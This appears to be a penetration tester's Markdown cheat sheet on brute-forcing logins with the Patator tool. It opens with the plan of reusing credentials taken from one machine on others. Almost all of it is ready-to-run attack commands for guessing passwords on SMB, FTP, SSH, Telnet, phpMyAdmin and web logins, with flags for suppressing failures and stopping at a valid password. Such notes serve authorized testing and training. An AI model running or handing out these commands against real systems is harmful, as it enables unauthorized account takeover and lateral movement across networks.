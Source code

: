 # Brute-forcing
If we gain creds from one machine, we will try it on other machines.

## Using Patator (Python)
```
https://github.com/lanjelot/patator
```

To get example commands:
```
/patator.py <module> -h
```

You can do *host=FILE0* and give the host file names using *0=hosts.txt*

## SMB
```
smb_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:fgrep=STATUS_LOGON_FAILURE
```

## FTP -  Brute-force authentication. Do not report wrong passwords. 
```
ftp_login host=10.0.0.1 user=FILE0 password=FILE1 0=logins.txt 1=passwords.txt -x ignore:mesg='Login incorrect.'
```

*If you get errors like "500 OOPS: priv_sock_get_cmd", use -x ignore,reset,retry:code=500 in order to retry the last login/password using a new TCP connection. Odd servers like vsftpd return this when they shut down the TCP connection (ie. max login attempts reached).*

If you want to stop testing when password is found:
```
ftp_login ... -x free=user:code=0
```

### Find anonymous ftp enabled machines
```
ftp_login host=NET0 user=anonymous password=test@example.com 0=10.0.0.0/24
```

## SSH  Brute-force several hosts and stop testing a host after a valid password is found. 
```
ssh_login host=FILE0 user=FILE1 password=FILE2 0=hosts.txt 1=logins.txt 2=passwords.txt -x free=host:code=0
```

## Telnet
```
telnet_login host=10.0.0.1 inputs='FILE0\nFILE1' 0=logins.txt 1=passwords.txt prompt_re='tux login:|Password:' -x reset:egrep!='Login incorrect.+tux login:'
```

## PHPMyAdmin
```
http_fuzz url=http://10.0.0.1/phpmyadmin/index.php method=POST follow=1 accept_cookie=1 body='pma_username=root&pma_password=FILE0&server=1&lang=en' 0=passwords.txt -x ignore:fgrep='Cannot log in to the MySQL server'
```

##  Brute-force website logon using GET requests
```
http_fuzz url='http://10.0.0.1/login?username=admin&password=_@@_FILE0_@@_' -e _@@_:hex 0=words.txt -x ignore:'code=200|size=1500-|fgrep=Welcome, unauthenticated user' -X '|'
```


